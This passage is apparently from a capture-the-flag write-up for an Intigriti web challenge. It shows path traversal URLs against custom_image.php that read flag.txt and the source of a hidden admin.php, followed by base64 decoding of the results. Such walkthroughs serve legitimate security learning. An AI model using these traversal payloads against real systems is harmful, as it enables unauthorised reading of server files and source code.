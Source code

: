 `https://challenge-0423.intigriti.io/custom_image.php?file=www/web/images/\..\..\..\flag.txt`
![flag.txt base64 encoded](flag.txt.png)<br>
<br>

After Base64 decoding this the text states:
```
Hey Mario, the flag is in another path! Try to check here:

/e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php
```

*Hmm, this sounds like a riddle? or is it maybe a reference to a certain videogame? maybe its both?!*
Well, we navigate to `/e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php`<br>
We intercept it and see the HTML content and also the `302 Found` header which will redirect to `Location: /index_error.php?error=invalid username or password`.<br>
Apparently something is not right here!<br>
So we fetch the source the same way as before;<br>
`https://challenge-0423.intigriti.io/custom_image.php?file=www/web/images/\..\..\..\e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php`<br>
For berevity, the text marked is the base64 we need to decode:<br>
<br>